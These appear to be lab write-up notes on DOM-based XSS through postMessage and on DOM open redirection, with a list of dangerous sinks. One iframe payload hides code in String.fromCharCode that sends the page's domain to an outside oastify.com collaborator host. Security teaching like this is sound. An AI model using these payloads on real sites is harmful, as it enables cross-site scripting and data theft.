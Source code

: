 The string contains JSON data. After the string is parsed to the JSON.parse method, it becomes a valid JavaScript object. Attempting to post it to the page may result in a prompt box appearing. An exploit may be:

```html
<iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

The iframe loads the vulnerable page and once loaded, it executes the JavaScript:

- `this` - refers to the iframe
- `contentWindow` - refers to the window object
- `postMessage` -  send a web message with the XSS payload to load a malicious `iframe.src` value
- `'*'` - the target origin (specifies what origin of the destination window must be for the event to be dispatched), it does not care about the origin of the recipient.

The double quotes must be escaped to indicate they are part of the string and not to terminate the first double quote used.

The exploitation payload:

```html
<iframe src=https://0ab400b604252be5803512fc002b00ad.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:alert(eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,32,61,32,34,104,116,116,112,115,58,47,47,112,99,53,100,118,116,109,104,100,97,49,122,46,111,97,115,116,105,102,121,46,99,111,109,47,63,120,61,34,32,43,32,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,32,43,32,34,85,83,69,82,69,78,68,34)))\"}","*")'>
```
# DOM-Based Open Redirection

Open redirections arise when scripts write attacker-controllable data into a sink that can trigger cross-domain navigation. The code may be vulnerable due to unsafe handling of `location.hash` properties:

```js
let url = /https?:\/\/.+/.exec(location.hash);
if (url) {
  location = url[0];
}
```

Open redirect can be used for phishing attacks since many users don't notice the subsequent redirection to a different domain. IF attackers controls the start of the string passed to the redirection API, it may be possible to escalate into an injection attack via the `javascript:` pseudo protocol to execute code when URL is processed.

Some sinks to look for include:

- location
- location.host
- location.hostname
- location.href
- location.pathname
- location.search
- location.protocol
- location.assign()
- location.replace()
- open()
- element.srcdoc
- XMLHttpRequest.open()
- XMLHttpRequest.send()
- jQuery.ajax()
- $.ajax()
